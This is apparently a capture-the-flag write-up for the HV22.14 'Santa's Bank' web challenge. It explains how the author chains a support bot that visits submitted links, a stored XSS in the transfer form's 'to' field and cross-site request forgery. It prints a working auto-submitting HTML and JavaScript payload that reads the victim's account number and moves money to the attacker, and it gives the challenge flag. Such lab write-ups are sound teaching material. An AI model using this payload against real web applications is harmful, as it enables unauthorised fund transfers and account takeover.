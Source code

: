 ```yaml
---
title: "[HV22.14] Santa's Bank"
date: 2022-12-14 22:24:31 +0100
categories: HV22 CTF web medium xss xsrf cors
---
```


Santa has lost faith and trust in humanity and decided to take matters in his own hands: He opens a new bank.

He announced the release with the following message:

`For Christmas, our bank has a generous offer: save 100 € in your savings account and get a promo code!`

Due to mistrust, he didn't connect his bank and its employees to the internet.

Can you hack bank?

# Solution

Okay, another website, let's fire up burp, register an account and see what's inside. I get an account number, a transfer function (where I can enter from, to and amount), the promotion info, a support function (where I enter an URL and the support will have a look on it) and log out.

![logged in view](/assets/hv22/hv22_14_loggedin.png)

A few things are suspicious here. First, why does the transfer function offer to specify the from-account? Usually, this is given since I'm logged in to my account and usually are only allowed to send money from my account to others. I created a second account and tried to send money from the other account to my account, but due to a lack of balance it didn't work out.

Second thing is the support function. Why would the support team click on links I provide? To see if this works, I simply created a webserver using `python3 -m http.server` and sent the support browser to my site. It works!

![support connects to my machine](/assets/hv22/hv22_14_httpserver.png)

Now the question is what we can do from here. I was stuck a long time since I tried to somehow exfiltrate data. I recognized I'm blocked by CORS and went down a few rabbit holes trying to circumvent it. I didn't look for an easier way in the beginning, but using a simple form, you can POST data to any address you like. Didn't know that this doesn't care for CORS, but apparently it doesn't.

The basic idea is to send the support team to their own site, grabbing their account number and sending money from their account to mine. To do this, we need to find another vulnerability. Namely one which executes javascript in their browser. After fiddling around with the website, I found that the `to` field of the transfer function is vulnerable to XSS.

```html
<html>
  <body onload="document.forms[0].submit()">
    <form
      action="https://87356ece-c334-4b28-87c7-3a5878f8ff15.idocker.vuln.land/transfer"
      method="POST"
    >
      <input name="from" value="a" />
      <input
        name="to"
        value="
                <script>
                        fetch('/')
                                .then(response => response.text())
                                .then((response) => {
                                        var acct = response.match(/[0-9A-F]{20}/)[0];
                var target = 'F9D4BB0A26E48BCEBECB';
                fetch('/transfer',
                        {
                                method: 'POST',
                                body: 'from=' + acct + '&to=' + target + '&amount=100',
                                headers: {
                                        'Content-Type': 'application/x-www-form-urlencoded'
                                }
                        })
                                })</script>
                "
      />
      <input name="amount" value="100" />
    </form>
  </body>
</html>
```

This is what I threw together. Basically, it creates a form which uses the XSS vulnerability in the `to` field (from and amount are irrelevant) and submits it right away. So the victims browser is redirected to the `action` value (transfer page) and the script from the `to` field gets executed. This script fetches the start screen (which displays the account number), grabs that by regex, and sends a POST to the `/transfer` endpoint, sending 100 from the support account to my target account.

After waiting for a moment for the support team to access my page, I can see that my balance now is at 100$ and under Promotion, I see my flag **HV22{XSS_XSRF_TOO_MANYS_XS}**

![flag](/assets/hv22/hv22_14_flag.png)
